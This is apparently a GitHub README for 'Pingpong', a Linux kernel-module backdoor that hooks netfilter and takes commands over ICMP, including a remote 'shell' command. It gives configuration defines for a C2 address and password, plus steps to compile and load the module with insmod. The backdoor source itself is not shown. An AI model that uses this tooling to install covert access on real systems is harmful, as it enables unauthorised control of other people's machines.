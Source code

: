 # Pingpong 
Pingpong is a backdoor that communicates entirely on icmp.

The ko directory contains code to compile a kernel module backdoor that hooks netfilter and listens for incoming icmp traffic. The client provided implements the custom protocol to communicate with the backdoor.

# Installation
Some configurations have to be added manually inside of each respective config.h file.
## KO
### Configuration
```c
#define C2_ADDR "<IP>" // Implementation to be added in the future
#define PASSWORD "<PASSWORD>" // The backdoor will only communicate with clients that have auth:ed with this password
```
### Compilation
Compilation has been tested on a debian 6.6.9-amd64 kernel.

```bash
make
sudo insmod pingpong
```
## Client
### Configuarion
```c
#define SRC_ADDR "<IP>" // Your Ip address
#define DST_ADDR "<IP>" // backdoors Ip address
#define INTERFACE "<INTERFACE>" // interface that your Ip address is bound to, eg 'eth0'
#define PASSWORD "<PASSWORD>" // Matching password as in the config on the server
#define OUTPUT_FILE "<PATH>" // When the 'shell' command is invoked, output is stored to this file on the server
```
### Compilation
```bash
make
sudo ./main
```

# TODO
* Add 'upload' command 
* Encrypt traffic